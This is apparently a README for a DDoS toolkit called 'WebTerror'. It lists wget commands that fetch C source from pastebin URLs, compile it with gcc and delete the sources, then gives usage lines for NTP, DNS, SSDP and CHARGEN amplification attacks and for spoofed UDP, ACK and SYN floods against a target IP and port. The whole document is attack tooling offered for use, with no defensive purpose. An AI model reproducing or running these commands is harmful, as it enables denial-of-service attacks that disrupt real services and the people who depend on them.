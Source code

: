 # WebTerror

### SSDP

wget http://pastebin.com/raw/fcyCGWqw -O ntp.c; gcc ntp.c -pthread -o ntp; rm -rf ntp.c; chmod +x ntp
wget http://pastebin.com/raw/2Hn2EejR -O dns.c; gcc dns.c -pthread -o dns; rm -rf dns.c; chmod +x dns
wget http://pastebin.com/raw/vpbXuKVA -O ssdp.c; gcc ssdp.c -pthread -o ssdp; rm -rf ssdp.c; chmod +x ssdp
wget http://pastebin.com/raw/Kktvq2pz -O chargen.c; gcc chargen.c -pthread -o chargen; rm -rf chargen.c; chmod +x chargen
wget http://pastebin.com/raw/x2eanwSi -O sudp.c; gcc sudp.c -pthread -o sudp; rm -rf sudp.c; chmod +x sudp
wget http://pastebin.com/raw/2R8URser -O ack.c; gcc ack.c -pthread -o ack; rm -rf ack.c; chmod +x ack
wget http://pastebin.com/raw/4FL9kAxx -O atcp.c; gcc atcp.c -pthread -o atcp; rm -rf atcp.c; chmod +x atcp
wget http://pastebin.com/raw/2CfHqZj9 -O xsyn.c; gcc xsyn.c -pthread -o xsyn; rm -rf xsyn.c; chmod +x xsyn

UDP

NTP
./ntp IP PORT NTPAMP.txt 8 -1 TIME
DNS
./dns IP PORT DNSAMP.txt 8 -1 TIME
SSDP
./ssdp IP PORT SSDPAMP.txt 8 -1 TIME
CHARGEN
./chargen IP PORT CHARGENAMP.txt 8 -1 TIME
Spoofed UDP / SUDP
./sudp IP PORT 8 -1 TIME

TCP

ACK
./ack IP PORT 8 -1 TIME
ATCP
./atcp IP 8 -1 TIME
XSYN
./xsyn IP PORT 8 -1 TIME

